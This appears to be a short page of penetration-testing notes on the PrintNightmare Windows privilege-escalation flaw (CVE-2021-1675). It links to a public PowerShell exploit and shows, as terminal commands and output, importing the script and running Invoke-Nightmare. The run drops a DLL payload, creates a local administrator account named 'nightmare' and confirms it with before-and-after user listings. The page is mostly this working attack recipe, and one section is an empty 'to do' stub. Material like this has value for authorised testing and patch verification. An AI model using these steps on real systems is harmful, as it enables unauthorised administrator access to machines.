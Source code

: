 # Printnightmare

## Printnightmare LPE Sharpprintnightmare

to do

## Printnightmare LPE Powershell

Download script from here: [https://github.com/gyaansastra/Print-Nightmare-LPE](https://github.com/gyaansastra/Print-Nightmare-LPE)

check current users

```text
PS C:\Users\testuser\Desktop\share> net user

User accounts for \\PC-WIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount       win10
The command completed successfully.
```

import and execute script

```text
PS C:\Users\testuser\Desktop\share> . .\CVE-2021-1675.ps1
PS C:\Users\testuser\Desktop\share> Invoke-Nightmare -NewUser nightmare -NewPassword "Pass123!" -DriverName "printme"
[+] created payload at C:\Users\win10\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\mxdwdrv.dll"
[+] added user nightmare as local administrator
[+] deleting payload from C:\Users\win10\AppData\Local\Temp\nightmare.dll
PS C:\Users\testuser\Desktop\share> net user

User accounts for \\PC-WIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
nightmare                WDAGUtilityAccount       win10
The command completed successfully.

PS C:\Users\testuser\Desktop\share>
```

